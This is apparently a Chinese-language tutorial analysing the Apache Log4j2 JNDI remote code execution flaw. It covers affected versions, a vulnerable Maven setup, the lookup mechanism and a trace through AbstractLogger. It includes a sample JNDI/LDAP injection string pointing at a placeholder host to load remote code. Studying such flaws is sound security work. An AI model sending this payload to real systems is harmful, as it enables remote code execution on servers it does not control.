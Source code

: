 # 漏洞简介

**Apache Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为2.0 <= Apache log4j2 <= 2.14.1，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响

# 环境搭建

直接创建Maven项目导入log4j2的依赖

```
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.0</version>
    </dependency>
</dependencies>
```

# 漏洞原理

 Log4j2 中的日志等级分别为: ALL < DEBUG < INFO < WARN < ERROR < FATAL < OFF

只要使用了org/apache/logging/log4j/spi/AbstractLogger.java log进行记录，且log等级为可记录等级即可触发次漏洞

一旦在log字符串中检测到${}，就会解析其中的字符串尝试使用lookup查询，因此只要能控制log参数内容，就有机会实现漏洞利用

大致的漏洞代码

```
private static final Logger logger = LogManager.getLogger();
public static void main(String[] args) {
  logger.error("${jndi:ldap://ip:1389/#Exploit}");
}
```

# 漏洞分析

漏洞入口点:AbstractLogger.class的`logIfEnabled`方法

![image-20220222200220983](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222200220983.png)

如果使用了AbstractLogger.java中的debug、info、warn、error、fatal等都会触发到该函数

![image-20220222202323192](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220222202323192.png)

那就跟进`logIfEnabled`方法,层层跟进来到了AbstractLogger.tryLogMessage.log方法

```
private void tryLogMessage(final String fqcn, final StackTraceElement location, final Level level, final Marker marker, final Message msg, final Throwable throwable) {
    try {
        this.log(level, marker, fqcn, location, msg, throwable);
    } catch (Exception var8) {
        this.handleLogMessageException(var8, fqcn, msg);
    }

}
```
